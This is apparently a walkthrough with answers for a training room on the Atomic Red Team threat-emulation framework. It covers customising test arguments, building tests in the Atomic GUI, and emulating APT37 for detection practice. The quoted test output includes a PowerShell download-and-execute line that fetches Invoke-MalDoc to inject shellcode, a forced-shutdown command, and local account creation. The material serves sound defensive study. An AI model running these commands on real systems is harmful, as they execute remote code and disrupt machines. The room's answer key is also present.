

Answer: `Registry Persistence Mechanisms in Recycle Bin`

### Task 6 - Customising Atomic Red Team

In some cases, the Atomic Red Team cannot cater to the organisation's needs, such as emulating MITRE techniques that do not have a corresponding Atomic or tailoring a specific use case that only fits within a particular infrastructure or configuration setup. With that in mind, we need to be capable of creating custom Atomic tests and maximising tests via custom arguments.

#### Custom Input Arguments

Going back to the contents of the Atomic files, the **input_argument** field defines a hashtable wherein the key is the input name, and the value is another hashtable specifying the input arguments. Let's use the Create Account: Local Account technique as an example to expound this further.

```powershell
user@ATOMIC$ cat T1136.001/T1136.001.yaml
...
  input_arguments:
    username:
      description: Username of the user to create
      type: String
      default: T1136.001_CMD
    password:
      description: Password of the user to create
      type: String
      default: T1136.001_CMD!
...
```

Using T1136.001 as an example, you may observe that the snippet above showcases two input names with the following information:

|Input Name|Input Definition|
|----|----|
|username|This input argument is described as the "Username of the user to create"<br>The username input type is **String**<br>The value defaults to **T1136.001_CMD**|
|password|This input argument is described as the "Password of the user to create"<br>The username input type is **String**<br>The value defaults to **T1136.001_CMD!**|

Knowing these, executing this Atomic test will create a user named **T1136.001_CMD**, having **T1136.001_CMD!** as its password.

We can test this out and verify it manually by executing Atomic Test #3 of T1136.001.

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1136.001 -TestNumbers 3
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1136.001-3 Create a new user in a command prompt
The password does not meet the password policy requirements. Check the minimum password length, password complexity and password history requirements.
More help is available by typing NET HELPMSG 2245.
Done executing test: T1136.001-3 Create a new user in a command prompt
```

```powershell
PS C:\Users\Administrator> net user

User accounts for \\ATOMIC

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
WDAGUtilityAccount
The command completed successfully.
```

Based on the output of the Atomic test and the `net user` command,  the user was not created successfully due to the existing password policy requirement. We can try customising the input arguments and replacing the password to satisfy the policy.

For this, we can either use one of these two parameters:

- **PromptForInputArgs** - set the values of the input arguments interactively

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1136.001 -TestNumbers 3 -PromptForInputArgs
```

- **InputArgs** - pass a hashtable that contains the key-value pair of input arguments and its values

```powershell
PS C:\Users\Administrator> $customArgs = @{ "username" = "THM_Atomic"; "password" = "p@ssw0rd" }
PS C:\Users\Administrator> Invoke-AtomicTest T1136.001 -TestNumbers 3 -InputArgs $customArgs
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1136.001-3 Create a new user in a command prompt
The command completed successfully.
Done executing test: T1136.001-3 Create a new user in a command prompt
```

The execution of the following commands below resulted in a new user named **THM_Atomic**.

The result can then be verified by checking the local users via **net.exe**. The user **THM_Atomic** was successfully created, as shown in the output below.

```powershell
PS C:\Users\Administrator> net user

User accounts for \\ATOMIC

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
THM_Atomic               WDAGUtilityAccount
The command completed successfully.
```

Lastly, these parameters can be used in conjunction with the **cleanup** parameter. Given the case, you need to specify the values used to revert successfully after the execution.

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1136.001 -TestNumbers 3 -PromptForInputArgs -Cleanup
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Enter a value for password , or press enter to accept the default.
Password of the user to create [T1136.001_CMD!]:
Enter a value for username , or press enter to accept the default.
Username of the user to create [T1136.001_CMD]: THM_Atomic
Executing cleanup for test: T1136.001-3 Create a new user in a command prompt
Done executing cleanup for test: T1136.001-3 Create a new user in a command prompt
PS C:\Users\Administrator> net users

User accounts for \\ATOMIC

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
WDAGUtilityAccount
The command completed successfully.
```

The command snippet above shows that the newly created account was successfully removed from the users' list.

One last important thing to highlight is that not all Atomics can use this functionality. Only the Atomics that have defined the **input_arguments** section can change values during execution. If you need to execute a more specific test, you may create your Atomic test.

#### Creating New Atomic Tests

The **Invoke-AtomicRedTeam** module also has a functionality that eases up the creation of Atomic Tests, and it is named the Atomic GUI.

The Atomic GUI is a web-based form that users can fill out to generate the YAML definition of Atomic Tests. The result of this tool can then be inserted into the appropriate Atomic technique.

To start the web application, execute **Start-AtomicGUI** via PowerShell.

```powershell
PS C:\Users\Administrator> Start-AtomicGui
Stopped all AtomicGUI Dashboards

Name      Port Running DashboardService
----      ---- ------- ----------------
AtomicGUI 8487    True UniversalDashboard.Services.DashboardService
```

Once the tool runs, access the application using the URL `http://localhost:8487/home` via a browser.



You may observe that all the values needed for a test can be quickly filled out, like:

- Atomic Test Name and Definition
- Supported Platforms
- Attack Commands, Command Executor, Required Elevation and Cleanup Commands
- Custom input arguments
- Prerequisites and their Executor



After writing the values, you can generate the output by clicking **GENERATE TEST DEFINITION**. This results in a YAML output that can be inserted into any Atomic Techniques needing modification.



**Note**: Add two spaces to align the Atomic Tests in the target Atomic YAML file. You may click the highlighted button above twice to insert the appropriate indentation.

---------------------------------------------------------------------------------------

#### What parameter should you use to customise the input arguments interactively?

Answer: `PromptForInputArgs`

#### What parameter should you use in conjunction with InputArgs/PromptForInputArgs to revert the changes made by the test?

Answer: `cleanup`

#### What is the default port used by the Atomic GUI?

Answer: `8487`

### Task 7 - Case Study: Emulating APT37

To apply all items discussed in the previous tasks, let's do a case study for the emulation of APT37.

APT37, also known as Reaper, is a cyber espionage group that has been active since 2012 and is believed to be operating out of North Korea. The group has been known to target a wide range of organisations, including government agencies, defence contractors, and media companies.

You may follow these guidelines, which is a summary of the methodology covered above:

- Start by gathering the techniques attributed to APT37 using ATT&CK Navigator.
- Correlate all existing Atomics with the known techniques the given threat actor uses.
- Emulate all available Atomic Tests and observe the events generated via Event Viewer or Aurora EDR.
- Ensure to execute a cleanup after every test.
- Document and review the results.

Lastly, answer the questions below to complete this task. Good luck!

---------------------------------------------------------------------------------------

#### Using the ATT&CK Navigator, how many techniques are attributed to APT37?

Hint: Some techniques are under multiple tactics. Get the unique number of techniques, including the sub-techniques.



Answer: `29`

#### Using the mapping provided by the ATT&CK Navigator, what is the phishing technique used by the threat group?

See above.

Answer: `Spearphishing Attachment`

#### How many techniques attributed to APT37 have an existing Atomic file?

Hint: Your filters should only include exact Atomic to Technique ID matching. (e.g. Searching T0001 might also include T0001.001 in the results)

Answer: `21`

#### Based on the results of Q3, which Atomic has no tests supported on Windows?

Hint: As of writing, this technique only has Atomic tests available for Linux and none for Windows.

Answer: `T1059.006`

#### What is the description of the prerequisite needed for Atomic Test T1055-1?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1055 -TestNumbers 1 -ShowDetails
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: Process Injection T1055
Atomic Test Name: Shellcode execution via VBA
Atomic Test Number: 1
Atomic Test GUID: 1c91e740-1729-4329-b779-feba6e71d048
Description: This module injects shellcode into a newly created process and executes. By default the shellcode is create
d, with Metasploit, for use on x86-64 Windows 10 machines.
Note: Due to the way the VBA code handles memory/pointers/injection, a 64bit installation of Microsoft Office is require
d.

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "#{txt_path}" -officeProduct "Word" -sub "Execute"
Command (with inputs):
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "C:\Tools\AtomicRedTeam\atomics\T1055\src\x64\T1055-macrocode.txt" -officeProduct "Word" -sub "Execute"

Dependencies:
Description: The 64-bit version of Microsoft Office must be installed
Check Prereq Command:
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
Get Prereq Command:
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
Description: C:\Tools\AtomicRedTeam\atomics\T1055\src\x64\T1055-macrocode.txt must exist on disk at specified location
Check Prereq Command:
if (Test-Path #{txt_path}) {exit 0} else {exit 1}
Check Prereq Command (with inputs):
if (Test-Path C:\Tools\AtomicRedTeam\atomics\T1055\src\x64\T1055-macrocode.txt) {exit 0} else {exit 1}
Get Prereq Command:
New-Item -Type Directory (split-path #{txt_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055/src/x64/T1055-macrocode.txt" -OutFile "#{txt_path}"
Get Prereq Command (with inputs):
New-Item -Type Directory (split-path C:\Tools\AtomicRedTeam\atomics\T1055\src\x64\T1055-macrocode.txt) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055/src/x64/T1055-macrocode.txt" -OutFile "C:\Tools\AtomicRedTeam\atomics\T1055\src\x64\T1055-macrocode.txt"
[!!!!!!!!END TEST!!!!!!!]
```

Answer: `The 64-bit version of Microsoft Office must be installed`

#### How many Atomic tests have met the prerequisites for Atomic T1082?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1082 -CheckPrereqs
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

CheckPrereq's for: T1082-1 System Information Discovery
Prerequisites met: T1082-1 System Information Discovery
CheckPrereq's for: T1082-6 Hostname Discovery (Windows)
Prerequisites met: T1082-6 Hostname Discovery (Windows)
CheckPrereq's for: T1082-8 Windows MachineGUID Discovery
Prerequisites met: T1082-8 Windows MachineGUID Discovery
CheckPrereq's for: T1082-9 Griffon Recon
Prerequisites met: T1082-9 Griffon Recon
CheckPrereq's for: T1082-10 Environment variables discovery on windows
Prerequisites met: T1082-10 Environment variables discovery on windows
CheckPrereq's for: T1082-13 WinPwn - winPEAS
Prerequisites met: T1082-13 WinPwn - winPEAS
CheckPrereq's for: T1082-14 WinPwn - itm4nprivesc
Prerequisites met: T1082-14 WinPwn - itm4nprivesc
CheckPrereq's for: T1082-15 WinPwn - Powersploits privesc checks
Prerequisites met: T1082-15 WinPwn - Powersploits privesc checks
CheckPrereq's for: T1082-16 WinPwn - General privesc checks
Prerequisites met: T1082-16 WinPwn - General privesc checks
CheckPrereq's for: T1082-17 WinPwn - GeneralRecon
Prerequisites met: T1082-17 WinPwn - GeneralRecon
CheckPrereq's for: T1082-18 WinPwn - Morerecon
Prerequisites met: T1082-18 WinPwn - Morerecon
CheckPrereq's for: T1082-19 WinPwn - RBCD-Check
Prerequisites met: T1082-19 WinPwn - RBCD-Check
CheckPrereq's for: T1082-20 WinPwn - PowerSharpPack - Watson searching for missing windows patches
Prerequisites met: T1082-20 WinPwn - PowerSharpPack - Watson searching for missing windows patches
CheckPrereq's for: T1082-21 WinPwn - PowerSharpPack - Sharpup checking common Privesc vectors
Prerequisites met: T1082-21 WinPwn - PowerSharpPack - Sharpup checking common Privesc vectors
CheckPrereq's for: T1082-22 WinPwn - PowerSharpPack - Seatbelt
Prerequisites met: T1082-22 WinPwn - PowerSharpPack - Seatbelt
CheckPrereq's for: T1082-23 Azure Security Scan with SkyArk
Prerequisites not met: T1082-23 Azure Security Scan with SkyArk
        [*] The SkyArk AzureStealth module must exist in $env:temp.
        [*] The AzureAD module must be installed.
        [*] The Az module must be installed.

Try installing prereq's with the -GetPrereqs switch
```

Answer: `15`

#### What are the three event IDs logged based on the execution of Atomic Test 1547.001-3? Provide the IDs in ascending order (e.g. 1,2,3)

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1547.001 -TestNumbers 3
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1547.001-3 PowerShell Registry RunOnce
Done executing test: T1547.001-3 PowerShell Registry RunOnce
```


Answer: `1,11,13`

#### What command is executed (with default input value) by Atomic Test T1529-1? Do not run without the ShowDetails parameter

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1529 -TestNumbers 1 -ShowDetails
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: System Shutdown/Reboot T1529
Atomic Test Name: Shutdown System - Windows
Atomic Test Number: 1
Atomic Test GUID: ad254fa8-45c0-403b-8c77-e00b3d3e7a64
Description: This test shuts down a Windows system.

Attack Commands:
Executor: command_prompt
ElevationRequired: True
Command:
shutdown /s /t #{timeout}
Command (with inputs):
shutdown /s /t 1
[!!!!!!!!END TEST!!!!!!!]
```

Answer: `shutdown /s /t 1`

#### What is the value of the TargetFilename inside the File Creation log (Event ID 11) generated by Atomic Test T1106-1?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1106 -TestNumbers 1
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1106-1 Execution through API - CreateProcess
Microsoft (R) Visual C# Compiler version 4.8.3761.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.
This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240
Done executing test: T1106-1 Execution through API - CreateProcess
```



Answer: `C:\Users\Administrator\AppData\Local\Temp\2\T1106.exe`

#### How many events are generated by executing the cleanup actions of Atomic T1105?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1105 -Cleanup
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing cleanup for test: T1105-7 certutil download (urlcache)
Done executing cleanup for test: T1105-7 certutil download (urlcache)
Executing cleanup for test: T1105-8 certutil download (verifyctl)
Done executing cleanup for test: T1105-8 certutil download (verifyctl)
Executing cleanup for test: T1105-9 Windows - BITSAdmin BITS Download
Done executing cleanup for test: T1105-9 Windows - BITSAdmin BITS Download
Executing cleanup for test: T1105-10 Windows - PowerShell Download
Done executing cleanup for test: T1105-10 Windows - PowerShell Download
Executing cleanup for test: T1105-11 OSTAP Worming Activity
Done executing cleanup for test: T1105-11 OSTAP Worming Activity
Executing cleanup for test: T1105-12 svchost writing a file to a UNC path
Done executing cleanup for test: T1105-12 svchost writing a file to a UNC path
Executing cleanup for test: T1105-13 Download a File with Windows Defender MpCmdRun.exe
Done executing cleanup for test: T1105-13 Download a File with Windows Defender MpCmdRun.exe
Executing cleanup for test: T1105-15 File Download via PowerShell
Done executing cleanup for test: T1105-15 File Download via PowerShell
Executing cleanup for test: T1105-16 File download with finger.exe on Windows
Done executing cleanup for test: T1105-16 File download with finger.exe on Windows
Executing cleanup for test: T1105-17 Download a file with IMEWDBLD.exe
Done executing cleanup for test: T1105-17 Download a file with IMEWDBLD.exe
Executing cleanup for test: T1105-18 Curl Download File
Done executing cleanup for test: T1105-18 Curl Download File
Executing cleanup for test: T1105-19 Curl Upload File
Done executing cleanup for test: T1105-19 Curl Upload File
Executing cleanup for test: T1105-20 Download a file with Microsoft Connection Manager Auto-Download
Done executing cleanup for test: T1105-20 Download a file with Microsoft Connection Manager Auto-Download
Executing cleanup for test: T1105-21 MAZE Propagation Script
Done executing cleanup for test: T1105-21 MAZE Propagation Script
Executing cleanup for test: T1105-22 Printer Migration Command-Line Tool UNC share folder into a zip file
Done executing cleanup for test: T1105-22 Printer Migration Command-Line Tool UNC share folder into a zip file
Executing cleanup for test: T1105-23 Lolbas replace.exe use to copy file
Done executing cleanup for test: T1105-23 Lolbas replace.exe use to copy file
Executing cleanup for test: T1105-24 Lolbas replace.exe use to copy UNC file
Done executing cleanup for test: T1105-24 Lolbas replace.exe use to copy UNC file
Executing cleanup for test: T1105-25 certreq download
Done executing cleanup for test: T1105-25 certreq download
Executing cleanup for test: T1105-26 Download a file using wscript
Done executing cleanup for test: T1105-26 Download a file using wscript
Executing cleanup for test: T1105-28 Nimgrab - Transfer Files
Done executing cleanup for test: T1105-28 Nimgrab - Transfer Files
Executing cleanup for test: T1105-29 iwr or Invoke Web-Request download
Done executing cleanup for test: T1105-29 iwr or Invoke Web-Request download
```



My testing showed 29 events but maybe some unrelated event was included in that!?

Answer: `28`

### Task 8 - Conclusion

Congratulations! You have completed the Atomic Red Team room.

Throughout the room, we have tackled the following topics about how Blue Teamers can leverage Atomic Red Team:

- Breakdown of each Atomic, the main component of the Atomic Red Team Framework.
- Tools such as **Invoke-AtomicRedTeam** and **ATT&CK Navigator** to model and execute threat activity.
- Importance of reverting or cleaning up after conducting the tests.
- Logging and Detection Rules review based on the emulation activity.
- Customisation of Atomic tests for the specific needs during testing.
- Case study simulation to emulate the activity of a known threat group.

Threat Emulation Frameworks such as the Atomic Red Team are commonly viewed as a tool only for Red Teamers, yet being knowledgeable about it may aid in learning how threat actors do the job. Knowing how attackers do it simplifies understanding how to defend it.

## References

- [Atomic Red Team - GitHub](https://github.com/redcanaryco/atomic-red-team)
- [Atomic Red Team - Homepage](https://www.atomicredteam.io/)
- [ATT&CK - Mitre](https://attack.mitre.org/)
- [ATT&CK Navigator - Mitre](https://mitre-attack.github.io/attack-navigator/)
- [Aurora Agent - Homepage](https://www.nextron-systems.com/aurora/)
- [Invoke-AtomicRedTeam - GitHub](https://github.com/redcanaryco/invoke-atomicredteam)
- [Invoke-AtomicRedTeam - Wiki](https://github.com/redcanaryco/invoke-atomicredteam/wiki)
- [Sysmon - Homepage](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
